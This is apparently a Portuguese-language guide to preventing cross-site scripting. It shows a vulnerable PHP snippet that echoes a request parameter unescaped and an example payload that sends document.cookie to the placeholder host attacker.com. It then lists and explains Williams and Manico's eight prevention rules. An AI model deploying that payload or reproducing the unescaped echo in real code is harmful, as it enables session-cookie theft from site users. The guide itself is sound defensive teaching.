 ```php
<?php
$creditcard = $_REQUEST("creditcard");
$page += "<input name='creditcard' type='text'  value='creditcard' >";
echo $page;
```

O HTML resultante será como o abaixo.

```html
'><script>
    document.location='http/www.attacker.com/cgi-bin/cookie.cgi?'%20+document.cookie
</script>
```

Segundo Williams e Manico (2011) existem 8 regras (numeradas de 0 a 7) para evitar este tipo de vulnerabilidade: 

- Regra 0(zero) - Nunca insira dados não confiáveis, exceto em locais permitidos, 
- Regra 1 - Codificar código HTML antes de inserir dados não confiáveis em conteúdo de elementos HTML, 
- Regra2 - Codificar atributos antes de inserir dados não confiáveis em atributos HTML comuns, 
- Regra3 - Codificar código Javascript antes de inserir dados não confiáveis em valores HTML de Javascript, 
- Regra4 - Codificar CSS antes de inserir dados não confiáveis em valores de propriedades de estilos de HTML, 
- Regra5 - Codificar URL antes de inserir dados não confiáveis em parâmetros de URL, 
- Regra6 – Utilizar API para limpar e validar qualquer tipo de saída e 
- Regra7 – Evitar XSS baseado em DOM.

A __regra de numeração zero__ (Nunca insira dados não confiáveis, exceto em locais permitidos) nos diz para não colocarmos 
nenhum tipo de dados em nosso HTML principalmente se estiverem entre tag's `<script>`, entre comentários HTML, como um 
atributo de uma tag `<div>` e quando o sistema escreve o nome da tag. 

*Não criar código JavaScript dinamicamente:*

    <script>...NÂO COLOCAR DADOS INSEGUROS AQUI...</script>

*Não criar comentários HTML dinamicamente:*

    <!--...NÂO COLOCAR DADOS INSEGUROS AQUI...-->

*Não criar atributos de tag HTML dinamicamente:*

    <div ...NÂO COLOCAR DADOS INSEGUROS AQUI...=test />

*Não criar tag HTML dinamicamente:*

    <...NÂO COLOCAR DADOS INSEGUROS AQUI... href="/test" />


Esta regra diz ainda, que a única exceção para colocarmos dados não seguros estão definidas nas regras de numeração 1 e
5 que será abordada mais adiante. Diz também para evitar contextos aninhados (nested contexts) como um URL dentro de
um JavaScript pois as regras para esse contexto são demasiadas complicadas. Ainda como recomendação, esta regra diz 
que a aplicação não deve aceitar um código real de Javascript de uma fonte não confiável e depois executá-lo.
